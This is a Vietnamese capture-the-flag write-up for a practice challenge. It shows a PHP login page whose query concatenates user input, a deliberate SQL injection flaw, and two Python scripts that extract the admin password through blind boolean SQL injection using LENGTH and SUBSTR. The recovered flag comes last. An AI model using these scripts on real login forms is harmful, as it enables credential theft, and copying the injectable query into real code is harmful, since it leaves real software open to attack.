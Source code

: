 # Bài 1
- Sau khi thử với SQL Injnection thì server có trả về mã nguồn của phần đăng nhập:
  ```php

    Congratulations!
    It s too easy?
    Dont worry.
    The flag is admin password.
    Hint:
    <?php
        function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}

        $id = isset($_POST['id']) ? $_POST['id'] : '';
        $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
        $login = false;
        $err = '';

        if ($id!=='')
        {
            $db = new PDO('sqlite:database.db');
            $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
            $login = $r && $r->fetch();
            if (!$login)
                $err = 'Login Failed';
        }
    ?><!DOCTYPE html>
    <html>
      <head>
        <meta charset="utf-8">
        <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
      </head>
      <body>
        <?php if (!$login) { ?>
        <p>
          First, login as "admin".
        </p>
        <div style="font-weight:bold; color:red">
          <?php echo h($err); ?>
        </div>
        <form method="POST">
          <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
          <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
          <div><input type="submit"></div>
        </form>
        <?php } else { ?>
        <p>
          Congratulations!<br>
          It's too easy?<br>
          Don't worry.<br>
          The flag is admin's password.<br>
          <br>
          Hint:<br>
        </p>
        <pre><?php echo h(file_get_contents('index.php')); ?></pre>
        <?php } ?>
      </body>
    </html>
  ```

- Đã xác định được web có dính SQL Injection và đã biết trước được `ID = admin` ngoài ra yêu theo như gợi ý thì flag chính là password của admin

- Việc đầu tiên cần xác định độ dài của password để thu ngắn bớt phạm vi rò quét:
  ```python
    import requests
    url = "http://ctfq.sweetduet.info:10080/~q6/"

    for i in range(0,100):
      data = {"id": "admin' AND LENGTH(user.pass) = "+str(i)+"  /*"}
      if "Congratulations!<br>" in requests.post(url, data).text:
        print(i)
        break
  ```
- Sẽ tìm ra độ dài của password là 21
- Sau khi đã khoanh vùng được độ dài ta tiến hành check từng ký tự của password (brute force)
  ```python
  import requests
  url = "http://ctfq.sweetduet.info:10080/~q6/"

  String = ""
  for index in range(1,22):
    for char in range(48,127):
      data = {"id": "admin' AND SUBSTR(user.pass,"+str(index)+",1) = '"+str(chr(char))+"'  /*"}
      if "Congratulations!<br>" in requests.post(url, data).text:
        String += str(chr(char))
        print(str(chr(char)))
        break

  print(String)

  ```
- Kết quả thu được là : `FLAG_KpWa4ji3uZk6TrPK`
